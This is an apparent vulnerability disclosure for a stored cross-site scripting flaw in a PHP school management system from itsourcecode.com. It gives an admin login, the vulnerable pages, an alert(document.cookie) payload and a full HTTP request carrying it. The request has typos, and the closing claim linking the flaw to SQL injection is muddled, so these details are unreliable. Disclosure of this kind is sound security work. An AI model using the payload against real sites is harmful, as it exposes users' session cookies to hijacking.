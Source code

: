 # Advanced School Management System v1.0 by itsourcecode.com has Cross-site Scripting (XSS)
**Vul_Author: Liyuan Jis**

Login account: suarez081119@gmail.com/12345 (Super Admin account)

vendor: https://itsourcecode.com/free-projects/php-project/advanced-school-management-system-in-php-with-source-code/

Vulnerability url: ip/school/view/subject.php

Vulnerability location: ip/school/moudel/update_subject.php

[+] Payload: <script>alert(document.cookie)</script>

Tested on Windows 10, phpStudy

There is an exemple with alert:

```
GET /school/model/update_subject.php?id=15&nama=%3Cscript%3Ealert(documant.cookie)%3C/script%3E$do=update_subject HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0(X11;Linux x86_64; rw:91.0) Gecko/20100101Firefox/91.0
Accept: */*
Accept-Language: en-Us,en;q-0.5
Accept-Encoding: gzip,deflate
Connection: close
Referer: http://192.168.1.19/school/view/subject.php
Cookie: PHPSESSID=5nicpveormjn86h3bf398fsem3
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
```
We click the subject interface and edit it.
![](4.png)
XSS script that writes the burst cookie.
![](5.png)
After we update, click subject again.
![](2.png)
We have obtained the cookie.
It can be seen from the source code that it is an XSS attack using SQL injection vulnerability.
![](3.png)